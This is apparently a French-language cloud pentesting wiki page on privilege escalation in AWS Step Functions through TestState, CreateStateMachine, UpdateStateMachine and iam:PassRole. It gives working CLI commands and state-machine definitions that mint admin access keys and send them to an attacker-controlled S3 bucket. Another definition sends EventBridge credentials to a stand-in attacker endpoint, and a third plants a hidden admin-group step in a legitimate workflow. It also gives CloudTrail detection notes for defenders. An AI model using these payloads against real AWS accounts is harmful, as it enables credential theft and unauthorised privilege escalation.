

# AWS - Step Functions Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## Step Functions

Pour plus d'informations sur l'accès à Step Functions :

{{#ref}}
../../aws-services/aws-stepfunctions-enum.md
{{#endref}}

### Ressources de tâche

Ces techniques d'escalade de privilèges nécessitent d'utiliser certaines ressources AWS Step Functions afin d'effectuer les actions d'escalade de privilèges souhaitées.

Pour vérifier toutes les actions possibles, vous pouvez accéder à votre propre compte AWS, sélectionner l'action que vous souhaitez utiliser et consulter les paramètres qu'elle utilise, comme dans :

<figure><figcaption></figcaption></figure>

Vous pouvez également consulter la documentation de l'API AWS et vérifier la documentation de chaque action :

- [**AddUserToGroup**](https://docs.aws.amazon.com/IAM/latest/APIReference/API_AddUserToGroup.html)<sup>[[1]](#references)</sup>
- [**GetSecretValue**](https://docs.aws.amazon.com/secretsmanager/latest/apireference/API_GetSecretValue.html)<sup>[[2]](#references)</sup>


**Impact potentiel :** Aucun à lui seul — cette section répertorie les intégrations de services auxquelles le rôle d'une machine à états peut accéder, ce qui délimite chacune des techniques ci-dessous.

<details>
<summary>Journaux générés</summary>

| Événement CloudTrail | Type d'événement | Journalisé par défaut ? |
| --- | --- | --- |
| `CreateStateMachine` | Gestion | **Oui** |
| `UpdateStateMachine` | Gestion | **Oui** |

`roleArn` est journalisé en clair. Le rôle utilisé par une machine à états est donc toujours visible dans la trace, même si sa définition ne l'est pas.

</details>

### `states:TestState` & `iam:PassRole`

Un attaquant disposant des permissions **`states:TestState`** et **`iam:PassRole`** peut tester n'importe quel état et lui transmettre n'importe quel rôle IAM sans créer ni mettre à jour une machine à états existante, ce qui peut permettre un accès non autorisé à d'autres services AWS avec les permissions de ces rôles. Combinées, ces permissions peuvent entraîner de nombreuses actions non autorisées, de la manipulation de workflows pour modifier des données aux fuites de données, en passant par la manipulation de ressources et l'escalade de privilèges.<sup>[[3]](#references)[[4]](#references)</sup>

```bash
aws stepfunctions test-state --definition <value> --role-arn <value> [--input <value>] [--inspection-level <value>] [--reveal-secrets | --no-reveal-secrets]
```

Les exemples suivants montrent comment tester un état qui crée une clé d’accès pour l’utilisateur **`admin`** en exploitant ces autorisations et un rôle permissif de l’environnement AWS. Ce rôle permissif doit être associé à une stratégie disposant de privilèges élevés (par exemple **`arn:aws:iam::aws:policy/AdministratorAccess`**) qui permet à l’état d’effectuer l’action **`iam:CreateAccessKey`** :<sup>[[5]](#references)[[9]](#references)</sup>

- **stateDefinition.json**:

```json
{
  "Type": "Task",
  "Parameters": {
    "UserName": "admin"
  },
  "Resource": "arn:aws:states:::aws-sdk:iam:createAccessKey",
  "End": true
}
```

- **Command** exécutée pour réaliser le privesc :

```bash
aws stepfunctions test-state --definition file://stateDefinition.json --role-arn arn:aws:iam::<account-id>:role/PermissiveRole

{
  "output": "{
	  \"AccessKey\":{
		  \"AccessKeyId\":\"AKIA1A2B3C4D5E6F7G8H\",
		  \"CreateDate\":\"2024-07-09T16:59:11Z\",
		  \"SecretAccessKey\":\"1a2b3c4d5e6f7g8h9i0j1a2b3c4d5e6f7g8h9i0j1a2b3c4d5e6f7g8h9i0j\",
		  \"Status\":\"Active\",
		  \"UserName\":\"admin\"
	  }
  }",
	"status": "SUCCEEDED"
}
```

#### Identifiants EventBridge Connection sans `states:RevealSecrets`

`TestState` peut également exécuter une tâche HTTP arbitraire. Si le rôle transmis peut appeler des endpoints HTTPS et utiliser une EventBridge Connection connue, dirigez l’état testé vers un endpoint contrôlé par un attaquant : Step Functions récupère la Connection et envoie sa clé API, ses identifiants Basic, son jeton OAuth et ses éventuels paramètres d’invocation dans la requête réelle. Ce chemin ne nécessite **pas** `states:RevealSecrets` ; cette permission détermine si les données d’inspection de TestState masquent les champs de requête ajoutés par la Connection, et non si l’endpoint distant reçoit les identifiants nécessaires à l’authentification de la requête.<sup>[[15]](#references)</sup>

```json
{
  "Type": "Task",
  "Resource": "arn:aws:states:::http:invoke",
  "Parameters": {
    "ApiEndpoint": "https://attacker-controlled.example/capture",
    "Method": "GET",
    "InvocationConfig": {
      "ConnectionArn": "arn:aws:events:REGION:ACCOUNT:connection/NAME/ID"
    }
  },
  "End": true
}
```

```bash
aws stepfunctions test-state \
  --definition file://http-task.json \
  --role-arn "$HTTP_TASK_ROLE_ARN" \
  --inspection-level INFO \
  --no-reveal-secrets
```

L’appelant a besoin de `states:TestState` ainsi que de `iam:PassRole` sur le rôle d’exécution exact. Le rôle transmis a besoin de `states:InvokeHTTPEndpoint` (utilisez `Resource: "*"` pour TestState et restreignez `states:HTTPEndpoint`/`states:HTTPMethod`), de `events:RetrieveConnectionCredentials` sur la Connection, et de `secretsmanager:GetSecretValue` ainsi que de `secretsmanager:DescribeSecret` sur le secret géré associé.<sup>[[15]](#references)[[16]](#references)</sup>

L’autorisation nécessite `states:TestState` et `iam:PassRole` sur le rôle exact, de préférence avec `iam:PassedToService = states.amazonaws.com`. Avec `revealSecrets=false`, une tâche HTTP peut quand même transmettre un identifiant de Connection au point de terminaison HTTPS choisi ; l’appelant n’a pas besoin d’un accès direct à EventBridge ou à Secrets Manager. Un point de terminaison contrôlé peut capturer des identifiants réutilisables ; sinon, la réponse HTTP fait office d’oracle de lecture/écriture authentifié contre l’API distante.

**Impact potentiel :** `TestState` peut exécuter un état fourni par l’attaquant avec le rôle transmis, renvoyer directement des résultats d’API sensibles ou divulguer un identifiant réutilisable d’EventBridge Connection à un point de terminaison contrôlé.

**Discrétion :** Moyenne — `TestState` et le rôle transmis sont visibles dans un événement de gestion par défaut, et la lecture du secret déclenchée par le service est journalisée, mais la définition testée, la valeur de l’identifiant, la requête HTTP et la réponse ne peuvent pas être reconstituées à partir des événements de gestion CloudTrail par défaut.


<details>
<summary>Journaux générés</summary>

| Événement CloudTrail | Type d’événement | Journalisé par défaut ? |
| --- | --- | --- |
| `TestState` | Gestion | **Oui** |
| `iam:PassRole` (vérification d’autorisation) | — | Aucun événement autonome ; inspectez l’événement d’API du service pour connaître le rôle transmis |
| `GetSecretValue` par le rôle transmis (tâche HTTP) | Gestion | **Oui** |
| `InvokeHTTPEndpoint` (tâche HTTP) | Données (`AWS::StepFunctions::StateMachine`) | **Non** ; nécessite l’activation de la journalisation des événements de données |

`TestState` est journalisé, mais la `definition` et l’entrée de l’état testé sont masquées ; la trace indique donc *qu’*un état a été testé et quel rôle a été transmis, mais pas ce qu’il a fait. `iam:PassRole` ne génère aucun événement distinct ; l’ARN du rôle dans `TestState` constitue le signal le plus fort disponible. Pour une tâche HTTP, `GetSecretValue` identifie le secret `events!connection/...` sous le rôle transmis, avec `invokedBy: states.amazonaws.com`, tandis que la visibilité sur le point de terminaison et la méthode nécessite l’activation facultative des événements de données `InvokeHTTPEndpoint`. La valeur du secret et la réponse distante sont absentes de CloudTrail par défaut.

</details>

### `states:CreateStateMachine` & `iam:PassRole` & (`states:StartExecution` | `states:StartSyncExecution`)

Un attaquant disposant de **`states:CreateStateMachine`** et de **`iam:PassRole`** pourrait créer une machine d’état et lui fournir n’importe quel rôle IAM, permettant ainsi un accès non autorisé à d’autres services AWS avec les autorisations de ce rôle. Contrairement à la technique de privesc précédente (**`states:TestState`** et **`iam:PassRole`**), celle-ci ne s’exécute pas toute seule : il faut également disposer des autorisations **`states:StartExecution`** ou **`states:StartSyncExecution`** (**`states:StartSyncExecution`** n’est **pas disponible pour les workflows Standard**, **uniquement pour les machines d’état Express**) afin de démarrer une exécution de la machine d’état.<sup>[[6]](#references)[[7]](#references)[[8]](#references)[[13]](#references)</sup>

```bash
# Create a state machine
aws stepfunctions create-state-machine --name <value> --definition <value> --role-arn <value> [--type <STANDARD | EXPRESS>] [--logging-configuration <value>]\
[--tracing-configuration <enabled=true|false>] [--publish | --no-publish] [--version-description <value>]

# Start a state machine execution
aws stepfunctions start-execution --state-machine-arn <value> [--name <value>] [--input <value>] [--trace-header <value>]

# Start a Synchronous Express state machine execution
aws stepfunctions start-sync-execution --state-machine-arn <value> [--name <value>] [--input <value>] [--trace-header <value>]
```

Les exemples suivants montrent comment créer une machine à états qui crée une clé d’accès pour l’utilisateur **`admin`** et exfiltre cette clé d’accès vers un bucket S3 contrôlé par un attaquant, en tirant parti de ces permissions et d’un rôle permissif de l’environnement AWS. Ce rôle permissif doit être associé à une stratégie hautement privilégiée (par exemple **`arn:aws:iam::aws:policy/AdministratorAccess`**) qui autorise la machine à états à effectuer les actions **`iam:CreateAccessKey`** et **`s3:putObject`**.<sup>[[5]](#references)[[9]](#references)[[10]](#references)[[11]](#references)[[14]](#references)</sup>

- **stateMachineDefinition.json**:

```json
{
  "Comment": "Malicious state machine to create IAM access key and upload to S3",
  "StartAt": "CreateAccessKey",
  "States": {
    "CreateAccessKey": {
      "Type": "Task",
      "Resource": "arn:aws:states:::aws-sdk:iam:createAccessKey",
      "Parameters": {
        "UserName": "admin"
      },
      "ResultPath": "$.AccessKeyResult",
      "Next": "PrepareS3PutObject"
    },
    "PrepareS3PutObject": {
      "Type": "Pass",
      "Parameters": {
        "Body.$": "States.JsonToString($.AccessKeyResult.AccessKey)",
        "Bucket": "attacker-controlled-S3-bucket",
        "Key": "AccessKey.json"
      },
      "ResultPath": "$.S3PutObjectParams",
      "Next": "PutObject"
    },
    "PutObject": {
      "Type": "Task",
      "Resource": "arn:aws:states:::aws-sdk:s3:putObject",
      "Parameters": {
        "Body.$": "$.S3PutObjectParams.Body",
        "Bucket.$": "$.S3PutObjectParams.Bucket",
        "Key.$": "$.S3PutObjectParams.Key"
      },
      "End": true
    }
  }
}
```

- **Commande** exécutée pour **créer la machine à états**:

```bash
aws stepfunctions create-state-machine --name MaliciousStateMachine --definition file://stateMachineDefinition.json --role-arn arn:aws:iam::123456789012:role/PermissiveRole
{
  "stateMachineArn": "arn:aws:states:us-east-1:123456789012:stateMachine:MaliciousStateMachine",
  "creationDate": "2024-07-09T20:29:35.381000+02:00"
}
```

- **Commande** exécutée pour **démarrer une exécution** de la machine à états créée précédemment :

```bash
aws stepfunctions start-execution --state-machine-arn arn:aws:states:us-east-1:123456789012:stateMachine:MaliciousStateMachine
{
    "executionArn": "arn:aws:states:us-east-1:123456789012:execution:MaliciousStateMachine:1a2b3c4d-1a2b-1a2b-1a2b-1a2b3c4d5e6f",
    "startDate": "2024-07-09T20:33:35.466000+02:00"
}
```

> [!WARNING]
> Le bucket S3 contrôlé par l’attaquant doit avoir les autorisations nécessaires pour accepter une action s3:PutObject provenant du compte victime.<sup>[[11]](#references)</sup>

**Prérequis et autorisations minimales :** `states:CreateStateMachine`, `iam:PassRole` sur un rôle qui fait confiance à Step Functions, et `states:StartExecution` pour un workflow Standard ou Express asynchrone, ou `states:StartSyncExecution` pour Express synchrone. La définition de la machine à états doit utiliser des intégrations que le rôle transmis est autorisé à appeler.

**Impact potentiel :** Une nouvelle machine à états peut exécuter des intégrations AWS choisies par l’attaquant avec le rôle transmis et exfiltrer leur sortie.

**Discrétion :** Moyenne — la création et l’exécution d’une machine à états sont des événements de gestion consignés par défaut et exposent le rôle transmis, mais CloudTrail masque la définition et les données d’exécution. Les appels de service privilégiés sont attribués au rôle de la machine à états ; les défenseurs doivent donc corréler l’activité du rôle avec le nouveau workflow.


<details>
<summary>Journaux générés</summary>

| Événement CloudTrail | Type d’événement | Consigné par défaut ? |
| --- | --- | --- |
| `CreateStateMachine` | Gestion | **Oui** |
| `iam:PassRole` (vérification d’autorisation) | — | Aucun événement autonome ; examiner l’événement d’API du service pour identifier le rôle transmis |
| `StartExecution` | Gestion | **Oui** |

Les trois événements sont consignés, mais `definition` dans `CreateStateMachine` et `input` dans `StartExecution` sont masqués. Un défenseur voit donc qu’une nouvelle machine à états associée à un rôle privilégié a été créée puis exécutée, sans **aucune visibilité sur ce qu’elle fait réellement**. La détection doit s’appuyer sur `roleArn` et sur les appels d’API effectués ensuite par le rôle.

</details>

### `states:UpdateStateMachine` et (pas toujours nécessaire) `iam:PassRole`

Un attaquant disposant de l’autorisation **`states:UpdateStateMachine`** pourrait modifier la définition d’une machine à états et y ajouter des états furtifs supplémentaires susceptibles de mener à une escalade de privilèges. Ainsi, lorsqu’un utilisateur légitime démarre une exécution de la machine à états, ce nouvel état malveillant furtif est exécuté et l’escalade de privilèges réussit.<sup>[[12]](#references)[[13]](#references)</sup>

Selon le niveau de permissivité du rôle IAM associé à la machine à états, l’attaquant se trouverait dans l’une de ces deux situations :

1. **Rôle IAM permissif** : Si le rôle IAM associé à la machine à états est déjà permissif (par exemple, s’il est associé à la politique **`arn:aws:iam::aws:policy/AdministratorAccess`**), l’autorisation **`iam:PassRole`** n’est pas nécessaire pour escalader les privilèges, car il n’est pas nécessaire de modifier aussi le rôle IAM : la définition de la machine à états suffit.<sup>[[12]](#references)[[13]](#references)</sup>
2. **Rôle IAM non permissif** : Contrairement au cas précédent, l’attaquant aurait également besoin de l’autorisation **`iam:PassRole`**, car il faudrait associer un rôle IAM permissif à la machine à états, en plus d’en modifier la définition.<sup>[[12]](#references)[[13]](#references)</sup>

```bash
aws stepfunctions update-state-machine --state-machine-arn <value> [--definition <value>] [--role-arn <value>] [--logging-configuration <value>] \
[--tracing-configuration <enabled=true|false>] [--publish | --no-publish] [--version-description <value>]
```

Les exemples suivants montrent comment mettre à jour une machine à états légitime qui invoque simplement une fonction Lambda HelloWorld, afin d’ajouter l’utilisateur **`unprivilegedUser`** au groupe IAM **`administrator`**. Ainsi, lorsqu’un utilisateur légitime démarre une exécution de la machine à états mise à jour, ce nouvel état malveillant furtif sera exécuté et l’escalade de privilèges réussira.<sup>[[1]](#references)[[9]](#references)[[10]](#references)</sup>

> [!WARNING]
> Si aucun rôle IAM permissif n’est associé à la machine à états, l’autorisation **`iam:PassRole`** sera également nécessaire pour mettre à jour le rôle IAM et lui associer un rôle IAM permissif (par exemple, un rôle auquel est attachée la politique **`arn:aws:iam::aws:policy/AdministratorAccess`**).<sup>[[13]](#references)</sup>

{{#tabs }}
{{#tab name="Legit State Machine" }}

```json
{
  "Comment": "Hello world from Lambda state machine",
  "StartAt": "Start PassState",
  "States": {
    "Start PassState": {
      "Type": "Pass",
      "Next": "LambdaInvoke"
    },
    "LambdaInvoke": {
      "Type": "Task",
      "Resource": "arn:aws:states:::lambda:invoke",
      "Parameters": {
        "FunctionName": "arn:aws:lambda:us-east-1:123456789012:function:HelloWorldLambda:$LATEST"
      },
      "Next": "End PassState"
    },
    "End PassState": {
      "Type": "Pass",
      "End": true
    }
  }
}
```

{{#endtab }}

{{#tab name="Malicious Updated State Machine" }}

```json
{
  "Comment": "Hello world from Lambda state machine",
  "StartAt": "Start PassState",
  "States": {
    "Start PassState": {
      "Type": "Pass",
      "Next": "LambdaInvoke"
    },
    "LambdaInvoke": {
      "Type": "Task",
      "Resource": "arn:aws:states:::lambda:invoke",
      "Parameters": {
        "FunctionName": "arn:aws:lambda:us-east-1:123456789012:function:HelloWorldLambda:$LATEST"
      },
      "Next": "AddUserToGroup"
    },
    "AddUserToGroup": {
      "Type": "Task",
      "Parameters": {
        "GroupName": "administrator",
        "UserName": "unprivilegedUser"
      },
      "Resource": "arn:aws:states:::aws-sdk:iam:addUserToGroup",
      "Next": "End PassState"
    },
    "End PassState": {
      "Type": "Pass",
      "End": true
    }
  }
}
```

{{#endtab }}
{{#endtabs }}

- **Commande** exécutée pour **mettre à jour** **la machine d’état légitime**:

```bash
aws stepfunctions update-state-machine --state-machine-arn arn:aws:states:us-east-1:123456789012:stateMachine:HelloWorldLambda --definition file://StateMachineUpdate.json
{
    "updateDate": "2024-07-10T20:07:10.294000+02:00",
    "revisionId": "1a2b3c4d-1a2b-1a2b-1a2b-1a2b3c4d5e6f"
}
```

**Impact potentiel :** Un workflow modifié peut effectuer des actions privilégiées dissimulées lors de la prochaine exécution légitime qui atteint l’état injecté.


<details>
<summary>Journaux générés</summary>

| Événement CloudTrail | Type d’événement | Consigné par défaut ? |
| --- | --- | --- |
| `UpdateStateMachine` | Gestion | **Oui** |
| `iam:PassRole` (vérification d’autorisation) | — | Aucun événement autonome ; inspectez l’événement d’API du service pour le rôle transmis |
| `PublishStateMachineVersion` | Gestion | **Oui** |

`iam:PassRole` n’est évalué que si la mise à jour **fournit** un `roleArn` ; l’omettre et ne modifier que la définition ou la configuration de journalisation contourne entièrement cette vérification (par exemple, `states:UpdateStateMachine` peut définir `loggingConfiguration.level=OFF` et `tracingConfiguration.enabled=false` sans `states:DescribeStateMachine`). Ces deux champs **sont** consignés en clair, donc la désactivation de la journalisation est visible dans la trace, même si la nouvelle définition ne l’est pas.

</details>

## References

- [1] [AddUserToGroup - Gestion des identités et des accès AWS](https://docs.aws.amazon.com/IAM/latest/APIReference/API_AddUserToGroup.html)
- [2] [GetSecretValue - AWS Secrets Manager](https://docs.aws.amazon.com/secretsmanager/latest/apireference/API_GetSecretValue.html)
- [3] [test-state — Référence de commandes AWS CLI 2.36.5](https://docs.aws.amazon.com/cli/latest/reference/stepfunctions/test-state.html)
- [4] [Tester des machines à états avec l’API TestState - AWS Step Functions](https://docs.aws.amazon.com/step-functions/latest/dg/test-state-isolation.html)
- [5] [CreateAccessKey - Gestion des identités et des accès AWS](https://docs.aws.amazon.com/IAM/latest/APIReference/API_CreateAccessKey.html)
- [6] [create-state-machine — Référence de commandes AWS CLI 2.36.1](https://docs.aws.amazon.com/cli/latest/reference/stepfunctions/create-state-machine.html)
- [7] [start-execution — Référence de commandes AWS CLI 2.35.22](https://docs.aws.amazon.com/cli/latest/reference/stepfunctions/start-execution.html)
- [8] [start-sync-execution — Référence de commandes AWS CLI 2.35.24](https://docs.aws.amazon.com/cli/latest/reference/stepfunctions/start-sync-execution.html)
- [9] [Apprendre à utiliser les intégrations SDK des services AWS dans Step Functions](https://docs.aws.amazon.com/step-functions/latest/dg/supported-services-awssdk.html)
- [10] [Transmettre des paramètres à une API de service dans Step Functions](https://docs.aws.amazon.com/step-functions/latest/dg/connect-parameters.html)
- [11] [PutObject - Amazon S3](https://docs.aws.amazon.com/AmazonS3/latest/API/API_PutObject.html)
- [12] [update-state-machine — Référence de commandes AWS CLI 2.35.22](https://docs.aws.amazon.com/cli/latest/reference/stepfunctions/update-state-machine.html)
- [13] [Accorder à un utilisateur l’autorisation de transmettre un rôle à un service AWS - Gestion des identités et des accès AWS](https://docs.aws.amazon.com/IAM/latest/UserGuide/id_roles_use_passrole.html)
- [14] [Fonctions intrinsèques pour les états JSONPath dans Step Functions](https://docs.aws.amazon.com/step-functions/latest/dg/intrinsic-functions.html)
- [15] [Appeler des API HTTPS dans les workflows Step Functions](https://docs.aws.amazon.com/step-functions/latest/dg/call-https-apis.html)
- [16] [Actions, ressources et clés de condition pour AWS Step Functions](https://docs.aws.amazon.com/service-authorization/latest/reference/list_stepfunctions.html)
{{#include ../../../../banners/hacktricks-training.md}}
